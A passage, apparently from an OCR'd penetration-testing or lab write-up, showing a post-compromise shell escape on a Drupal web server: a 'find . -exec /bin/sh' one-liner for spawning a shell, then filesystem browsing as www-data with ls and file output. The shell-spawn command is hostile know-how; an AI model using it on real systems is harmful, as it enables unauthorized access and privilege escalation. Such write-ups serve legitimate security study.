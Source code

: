 ```
find . -exec '/bin/sh' \;-quit
```
also explain [it](https://www.explainshell.com/explain?cmd=find+.+-exec+%27%2Fbin%2Fsh%27+%5C%3B-quit)

---

## no direct way but a little twist way

another way

 we can broswer the file system...

like this~ 

```
ls -al 
total 408
drwxr-xr-x  3 www-data www-data   4096 Nov 21  2013 .
drwxr-xr-x 42 www-data www-data   4096 Nov 21  2013 ..
drwxr-xr-x  2 www-data www-data   4096 Nov 21  2013 tests
-rw-r--r--  1 www-data www-data    595 Nov 21  2013 user-picture.tpl.php
-rw-r--r--  1 www-data www-data   1001 Nov 21  2013 user-profile-category.tpl.php
-rw-r--r--  1 www-data www-data    918 Nov 21  2013 user-profile-item.tpl.php
-rw-r--r--  1 www-data www-data   1689 Nov 21  2013 user-profile.tpl.php
-rw-r--r--  1 www-data www-data    510 Nov 21  2013 user-rtl.css
-rw-r--r--  1 www-data www-data  39444 Nov 21  2013 user.admin.inc
-rw-r--r--  1 www-data www-data  15764 Nov 21  2013 user.api.php
-rw-r--r--  1 www-data www-data   1827 Nov 21  2013 user.css
-rw-r--r--  1 www-data www-data    356 Nov 21  2013 user.info
-rw-r--r--  1 www-data www-data  29469 Nov 21  2013 user.install
-rw-r--r--  1 www-data www-data   6568 Nov 21  2013 user.js
-rw-r--r--  1 www-data www-data 141243 Nov 21  2013 user.module
-rw-r--r--  1 www-data www-data  21779 Nov 21  2013 user.pages.inc
-rw-r--r--  1 www-data www-data   2723 Nov 21  2013 user.permissions.js
-rw-r--r--  1 www-data www-data  99132 Nov 21  2013 user.test
-rw-r--r--  1 www-data www-data   4093 Nov 21  2013 user.tokens.inc
file *
tests:                         directory
user-picture.tpl.php:          PHP script, ASCII text
user-profile-category.tpl.php: PHP script, ASCII text
user-profile-item.tpl.php:     PHP script, ASCII text
user-profile.tpl.php:          PHP script, ASCII text
user-rtl.css:                  ASCII text
user.admin.inc:                PHP script, ASCII text, with very long lines
user.api.php:                  PHP script, ASCII text
user.css:                      ASCII text
user.info:                     ASCII text
user.install:                  PHP script, ASCII text, with very long lines
user.js:                       ASCII text
user.module:                   PHP script, ASCII text, with very long lines
user.pages.inc:                PHP script, ASCII text, with very long lines
user.permissions.js:           ASCII text
user.test:                     C++ source, UTF-8 Unicode text, with very long lines
user.tokens.inc:               PHP script, ASCII text
pwd
/var/www/modules/user
```
